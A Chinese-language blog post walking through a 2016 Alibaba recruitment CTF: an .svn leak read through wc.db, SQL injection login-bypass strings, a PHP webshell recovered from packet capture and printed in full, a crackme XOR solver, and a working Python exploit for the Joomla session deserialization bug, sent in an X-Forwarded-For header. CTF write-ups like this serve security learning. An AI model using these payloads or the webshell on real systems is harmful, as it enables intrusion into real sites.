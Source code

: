 title: This is AliCTF?
date: 2016-03-15 08:35:30
tags: CTF
categories: H-blog
---
![alictf0](http://7xscw6.com1.z0.glb.clouddn.com/hexo-alictf0.png)
> 这算是今年的阿里CTF？昨天小伙伴在玩这个，我在研究0CTF的WEB题，今早知道真相的我眼泪掉下来。上周五刚面了一轮。。。
<!--more-->

# Step 0
上图中的base64解码呗。。
```
$ echo "aHR0cDovLzIxOC4yNDQuMTQzLjE5OC8=" | base64 -d
http://218.244.143.198/
```

打开来是一个 伪造？ 的sqlmap网站，右键查看源码， 有一坨jsfuck，太长了，这里就不贴了。。直接丢F12里面的console运行，得到：
```
218.244.143.198/.svn/
```

那就svn泄露呗，记得以前做过这样的题，记不清楚了，google一下，
> 现实的开发环境中，强烈建议使用导出功能svn export而不是svn co。由此可能导致非常严重的问题，很多管理员直接吧svn co出来的代码直接放到web目录下。这就使.svn隐藏文件夹被暴露于外网环境，黑客可以借助其中包含的用于版本信息追踪的“entries”文件，逐步摸清站点结构。

所以接下来就是访问 `http://218.244.143.198/.svn/entries`, 得到
```
12
This is lastest version SVN, U know wc.db?
```

然后访问 `http://218.244.143.198/.svn/wc.db` 把这文件下下来，这文件是svn的sqlite数据库，然后装了一个这个数据库的浏览器。
```
$ sudo apt-get install sqlitebrowser
```

然后用这个打开wc.db，然后关于这个数据库的问题网上随便都搜的到，然后找到一篇wp: <http://bobao.360.cn/learning/detail/129.html>
发现一个页面：`66666/index.php` 不过这wp中说的源码泄露没发现，所以直接去访问看看。。

好了。。。这时候该问。。最短的payload的是啥？讲道理，我觉得是 `'='`, 可是竟然不跟我讲道理。。。所以我觉得最短的是`'=''#`还有`'||1#` , 然后得到
```
Hack it to make money! GoGoGo~ http://218.244.143.198/zootopia/
```

。。这。。懵逼了一会，随便看了看默认的是啥。。。发现是一串md5: `d41b8265807ce33038df2b3f7aa9fb10`
丢cmd5上，接出来是aliyun, 试试，(⊙v⊙)。。。。对了
得到一个文件:`c0ngrats.txt`, 打开来看看，得知后面还有3题，和下一题的题目地址：`http://218.244.143.198/static/backdoor.zip`

# Step 1

下载下来解压出来是一个数据包，数据流量审计题。。关于这类的题，我觉得很蛋疼。要不然很简单，比如http这样明文传输的协议的审计，要不然再难一点，加上802.11无线协议，但是这种爆破密码就没意思了，不设密码又太简单。要不然就是很难的审计加密协议。。所以hctf的时候我就没出流量审计的题目。

这题呢，就属于那种就简单的把，先过滤出来http协议，然后发现第一个backdoor.php，然后整理了下这个后门的源码
```
<?php
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
$D=base64_decode($_POST["z1"]);
$F=@opendir($D);
if($F==NULL) {
	echo("ERROR:// Path Not Found Or No Permission!");
} else{
	$M=NULL;
	$L=NULL;
	while($N=@readdir($F)) {
		$P=$D."/".$N;
		$T=@date("Y-m-d H:i:s",@filemtime($P));
		@$E=substr(base_convert(@fileperms($P),10,8),-4);
		$R="\t".$T."\t".@filesize($P)."\t".$E."\n";
		if(@is_dir($P)) $M.=$N."/".$R;
		else $L.=$N.$R;
	}
	echo $M.$L;
	@closedir($F);
};
echo("|<-");
die(); 
?>
```

然后发现ip和该题的题目链接ip一样，去试试，没有这后门文件，那就从数据包入手。右击 -> Follow TCP Stream
得到另一个文件`wllm`, 访问得
```
find data package careful, you will find next level url , that will be a crackme
```

所以说下一题的入口还是在数据包里。。。看着一坨的http包，好吧，继续过滤 `http && ip.addr==218.244.143.198`
然后从第四个POST包中的参数z2中得到下一题的入口：
```
$ echo "YUhSMGNEb3ZMekl4T0M0eU5EUXVNVFF6TGpFNU9DOXpkR0YwYVdNdlkzSmhZMnR0WlE9PQ==" | base64 -d| base64 -d
http://218.244.143.198/static/crackme
```

# Step 2

linux64位逆向题呗。。。比Z神出的简单多了，直接丢到ida中，F5，关键部分如图所示
![alictf1](http://7xscw6.com1.z0.glb.clouddn.com/hexo-alictf1.png)
payload:
```
# crack.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

secret = [0x8, 0x45, 0x0A, 0x42, 0x4b, 0x31, 0x6d, 0x2f, 0x52, 0x0b, 0x16, 0x23] 
secret1 = [0x73, 0x64, 0x66, 0x23, 0x6b, 0x6c, 0x25, 0x72, 0x29, 0x6b, 0x73, 0x6b]
result = ""

for x in range(12):
	tmp = secret[x] ^ secret1[x] ^ 0xF
	result += chr(tmp)

result += "a"
print result
# $ python crack.py | ./crackme
# I want ur password:Yes!
# $ python crack.py
# t.cn/RGRtojGa
```

去掉最后的a，就是下一题的入口了
# Step 3

http://112.124.106.246/7fbde8d70c816033/index.php
打开来一看是.....Joomla。。。。。。。。。。
0CTF的piapiapia那题搜关于php序列化的漏洞搜出来的全是这个博客的反序列化截断漏洞。。。。
然后发现这漏洞阿里云还写了分析报告，好了。。。估计就是这洞了。。。
payload:
```
# payload.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests

url = "http://112.124.106.246/7fbde8d70c816033/index.php"
header = {
	"X-Forwarded-For": '}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\\0\\0\\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\\0\\0\\0connection";b:1;}\xf0',
}

req = requests.get(url, headers=header)
print req.content
# $ python payload.py
# Success! key:xxxxxxxxxxxxxxxxxxxxx 发简历时附加此key有加分
```

撸了两节课撸完了。。。还是继续研究0CTF去了。。